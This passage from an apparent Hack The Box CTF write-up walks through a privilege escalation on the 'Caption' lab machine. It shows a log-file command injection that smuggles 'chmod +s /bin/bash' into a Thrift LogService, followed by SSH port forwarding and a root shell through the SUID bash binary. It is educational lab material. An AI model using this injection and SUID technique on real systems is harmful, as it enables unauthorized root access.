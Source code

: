 Now let's check for user flag.

![/etc/hosts](09.png){: width="1200" height="800" }

In `user.txt` I got the user flag and I am not mentioning it for the privacy of the guidelines of HTB

Now let's find out root flag by the Privilege Escalation.

Here I have done exploiting LogService

One of the most interesting parts of this box was the Logservice repository. After cloning it from GitBucket, I saw that it contained a Thrift-based service. The key here was generating the Python client to interact with the LogService.

First, I cloned the LogServicerepository:
> `git clone http://caption.htb:8080/git/root/Logservice.git`

changing the directory to the logservice

> `cd Logservice`

Next, I generated the Python client code using the Thrift command:

> `thrift --gen py log_service.thrift`

This generated the necessary Python client code to interact with the LogService.

Creating a Malicious Log File

To escalate our privileges, I have created a log file that, when processed by the LogService, would set the SUID bit on `/bin/bash`. This is the crucial part of the exploit.

I created the malicious log file on the target machine:
```console
echo "127.0.0.1 \"user-agent\":\"' chmod +s /bin/bash #\"" > /tmp/malicious.log
```
Port Forwarding and Running the Exploit

To run the Python client locally, I set up port forwarding between my local machine and the target:

```console
ssh -L 9090:127.0.0.1:9090 margo@caption.htb -N -f
```
Next, I used a Python script to communicate with the LogService and process the malicious log file:

Running the script:
```console
python3 script.py
```
Now, the SUID bit is set on `/bin/bash`, allowing us to escalate privileges and gain a root shell.
Checking the permissions:
```console
ls -la /bin/bash
```
Executing the bash shell with elevated privileges:
```console
/bin/bash -p
```
Finally, we are root!
```console
whoami
root
```
Capture the Root Flag
The last step is to navigate to the /root directory and capture the root flag:
```console
cat /root/root.txt
```
![/etc/hosts](10.png){: width="1200" height="800" }

